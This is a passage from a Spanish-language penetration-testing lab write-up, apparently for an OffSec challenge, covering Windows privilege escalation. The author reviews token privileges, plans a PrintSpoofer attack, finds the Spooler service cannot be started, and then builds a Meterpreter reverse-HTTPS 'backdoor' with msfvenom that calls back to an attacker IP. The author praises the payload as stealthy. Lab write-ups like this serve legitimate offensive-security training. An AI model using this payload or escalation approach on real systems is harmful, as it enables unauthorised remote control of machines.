     No forma parte de Administrators.

    Pero es miembro de Remote Desktop Users, lo que implica acceso por RDP si se habilita el servicio.

✅ Privilegios destacados:

    SeImpersonatePrivilege → ✅ Crítico para escalada de privilegios

    SeChangeNotifyPrivilege → común, no explotable

    SeCreateGlobalPrivilege → útil en algunas condiciones

    SeIncreaseWorkingSetPrivilege → normalmente no útil

Podemos usar PrintSpoofer para escalar privilegios y obtener credenciales para pivoting, movimiento lateral etc. pero antes debemos verificar
si el servicio **Spooler** esta corriendo y de lo contrario si podemos iniciarlo para ejecutar PrintSpoofer:

```powershell
PS C:\Users\adrian\Desktop> Get-Service Spooler

Status   Name               DisplayName                           
------   ----               -----------                           
Stopped  Spooler            Print Spooler                         


PS C:\Users\adrian\Desktop> Start-Service -Name Spooler
PS C:\Users\adrian\Desktop> Get-Service Spooler

Status   Name               DisplayName                           
------   ----               -----------                           
Stopped  Spooler            Print Spooler                         


PS C:\Users\adrian\Desktop>
```
Como no podemos iniciar el servicio, pasamos de momento a estabilizar el shell con **msf**

1. Creamos el backdoor.

```bash
┌──(root㉿kali)-[/home/kali/OffSec/Challenges/2_Relia]
└─# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.239 LPORT=443 -f psh-reflection -o meterpreter.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 772 bytes
Final size of psh-reflection file: 3551 bytes
Saved as: meterpreter.ps1
```

* `windows/x64/meterpreter/reverse_https`: más estable y discreto que reverse_tcp.
* `-f psh-reflection`: formato para ejecución directa en memoria vía PowerShell.
* `meterpreter.ps1`: script que cargarás desde la víctima.

